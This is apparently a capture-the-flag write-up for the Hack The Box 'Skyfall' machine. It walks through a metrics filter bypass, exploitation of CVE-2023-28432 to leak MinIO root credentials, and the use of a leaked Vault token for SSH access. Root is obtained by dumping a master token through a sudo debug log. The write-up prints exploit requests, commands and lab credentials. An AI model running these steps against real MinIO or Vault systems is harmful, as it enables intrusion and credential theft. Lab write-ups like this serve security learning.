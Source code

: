 # Skyfall Write-up

<img src="https://labs.hackthebox.com/storage/avatars/e43c6cdfe71e56188e5c2c4f39f5c180.png" width="200" height="200">

## Nmap

 `nmap -sC -sV 10.10.11.254`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 65:70:f7:12:47:07:3a:88:8e:27:e9:cb:44:5d:10:fb (ECDSA)
    |_  256 74:48:33:07:b7:88:9d:32:0e:3b:ec:16:aa:b4:c8:fe (ED25519)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    |_http-title: Skyfall - Introducing Sky Storage!
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

skyfall.htb

![image](https://github.com/zer00d4y/writeups/assets/128820441/4bf045f4-8e04-45d1-b4e2-ee9803011ec3)

On the source page, we found the `demo.skyfall.htb` subdomain

![image](https://github.com/zer00d4y/writeups/assets/128820441/4290b0a6-ec98-4422-9775-d6933c0533eb)

demo.skyfall.htb

![image](https://github.com/zer00d4y/writeups/assets/128820441/187c409f-463c-4b81-a55c-b6ba1ead873a)

Demo login: `guest` / `guest` 

![image](https://github.com/zer00d4y/writeups/assets/128820441/49975c2d-f9f4-46b2-99d9-976ebec744fd)

Click to `MinIO Metrics` demo.skyfall.htb/metrics

![image](https://github.com/zer00d4y/writeups/assets/128820441/2c1dc548-86e5-46ef-80af-33c2c4633081)

Try to bypass the filter by using the symbol `%0a` demo.skyfall.htb/metrics%0a

![image](https://github.com/zer00d4y/writeups/assets/128820441/89a39e7d-d94a-460b-b019-6768773246cd)

From here we find the address of the MinIO cluster 

prd23-s3-backend.skyfall.htb/minio/v2/metrics/cluster

![image](https://github.com/zer00d4y/writeups/assets/128820441/8de2ded9-d9a5-4243-9082-da94e03d4108)

CVE-2023-28432

https://github.com/acheiii/CVE-2023-28432

Add `/minio/bootstrap/v1/verify` to the cluster link and replace the `GET` request with a `POST` request

![image](https://github.com/zer00d4y/writeups/assets/128820441/d5339767-e86f-4eec-978e-9f92a0a23734)

    {"MinioEndpoints":[{"Legacy":false,"SetCount":1,"DrivesPerSet":4,"Endpoints":[{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node1:9000","Path":"/data1","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node2:9000","Path":"/data1","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node1:9000","Path":"/data2","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node2:9000","Path":"/data2","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true}],"CmdLine":"http://minio-node{1...2}/data{1...2}","Platform":"OS: linux | Arch: amd64"}],"MinioEnv":{"MINIO_ACCESS_KEY_FILE":"access_key","MINIO_BROWSER":"off","MINIO_CONFIG_ENV_FILE":"config.env","MINIO_KMS_SECRET_KEY_FILE":"kms_master_key","MINIO_PROMETHEUS_AUTH_TYPE":"public","MINIO_ROOT_PASSWORD":"GkpjkmiVmpFuL2d3oRx0","MINIO_ROOT_PASSWORD_FILE":"secret_key","MINIO_ROOT_USER":"5GrE1B2YGGyZzNHZaIww","MINIO_ROOT_USER_FILE":"access_key","MINIO_SECRET_KEY_FILE":"secret_key","MINIO_UPDATE":"off","MINIO_UPDATE_MINISIGN_PUBKEY":"RWTx5Zr1tiHQLwG9keckT0c45M3AGeHD6IvimQHpyRywVWGbP1aVSGav"}}

Now, we found Minio root user and password

"MINIO_ROOT_USER":"`5GrE1B2YGGyZzNHZaIww`"

"MINIO_ROOT_PASSWORD":"`GkpjkmiVmpFuL2d3oRx0`"

Download and install the minio client: https://min.io/docs/minio/linux/reference/minio-mc.html

    curl https://dl.min.io/client/mc/release/linux-amd64/mc \
      --create-dirs \
      -o $HOME/minio-binaries/mc
      
    chmod +x $HOME/minio-binaries/mc

    export PATH=$PATH:$HOME/minio-binaries/

    mc alias set myminio http://prd23-s3-backend.skyfall.htb 5GrE1B2YGGyZzNHZaIww GkpjkmiVmpFuL2d3oRx0

    mc admin info myminio

![image](https://github.com/zer00d4y/writeups/assets/128820441/67eab23b-fbcb-4fe8-9b3f-c3c0afa6d9e0)

![image](https://github.com/zer00d4y/writeups/assets/128820441/375604e4-aef4-4f39-9c3d-55152af4c2cd)

Let's list all files with their versions and download the backup file

    mc ls --recursive --versions myminio

![image](https://github.com/zer00d4y/writeups/assets/128820441/b06bc936-1d22-4de6-9723-808f745fb548)

![image](https://github.com/zer00d4y/writeups/assets/128820441/2c5a44e3-2399-4ce9-92be-b4fc04e20007)

cat .bashrc

The `.bashrc` file contains the address and token for Vault

![image](https://github.com/zer00d4y/writeups/assets/128820441/8a2d8bd7-5343-48ce-aed6-3bedbc2ca9c1)

    export VAULT_API_ADDR="http://prd23-vault-internal.skyfall.htb"
    export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"

add volt address to /etc/hosts

Download vault 

    wget https://releases.hashicorp.com/vault/1.15.5/vault_1.15.5_linux_amd64.zip
    unzip vault_1.15.5_linux_amd64.zip
    export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"
    ./vault login
    hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE
    ./vault token capabilities ssh/roles
    list
    ./vault list ssh/roles

![image](https://github.com/zer00d4y/writeups/assets/128820441/209632af-b0a5-4c06-9398-8b2ca4fb7e5d)

![image](https://github.com/zer00d4y/writeups/assets/128820441/7252b43a-3e8c-47c2-9d30-75e98b967274)

    ./vault ssh -role dev_otp_key_role -mode OTP -strict-host-key-checking=no askyy@10.10.11.254

(askyy@10.10.11.254) Password is OTP session id

![image](https://github.com/zer00d4y/writeups/assets/128820441/92e4a05f-c5c7-4716-b41c-d48fa4bf50b8)

Get the user flag

![image](https://github.com/zer00d4y/writeups/assets/128820441/67def74a-c3ea-49d6-968e-272b94e29153)

## Privilege Escalation

![image](https://github.com/zer00d4y/writeups/assets/128820441/95800080-81e9-4b33-a10c-5a87f57563cf)

    askyy@skyfall:~$ rm -rf debug.log
    askyy@skyfall:~$ touch debug.log
    askyy@skyfall:~$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -vd
    [+] Reading: /etc/vault-unseal.yaml
    [-] Security Risk!
    [+] Found Vault node: http://prd23-vault-internal.skyfall.htb
    [>] Check interval: 5s
    [>] Max checks: 5
    [>] Checking seal status
    [+] Vault sealed: false
    askyy@skyfall:~$ cat debug.log
    Initializing logger...
    Reading: /etc/vault-unseal.yaml
    Security Risk!
    Master token found in config: hvs.I0ewVsmaKU1SwVZAKR3T0mmG
    Found Vault node: http://prd23-vault-internal.skyfall.htb
    Check interval: 5s
    Max checks: 5
    Establishing connection to Vault...
    Successfully connected to Vault: http://prd23-vault-internal.skyfall.htb
    Checking seal status
    Vault sealed: false
    askyy@skyfall:~$ exit

  connect as root

    export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"
    ./vault login 
    hvs.I0ewVsmaKU1SwVZAKR3T0mmG
    ./vault ssh -role admin_otp_key_role -mode OTP -strict-host-key-checking=no root@10.10.11.254
    ./vault ssh -role admin_otp_key_role -mode OTP -strict-host-key-checking=no root@10.10.11.254

![image](https://github.com/zer00d4y/writeups/assets/128820441/6a7611cf-309e-4f93-8e70-17a6d206ec57)

![image](https://github.com/zer00d4y/writeups/assets/128820441/d00a1b26-1498-42a2-974b-e5905899cd92)

Get the root flag 

![image](https://github.com/zer00d4y/writeups/assets/128820441/36125105-82f3-4b0a-87a9-d9a3092522b5)



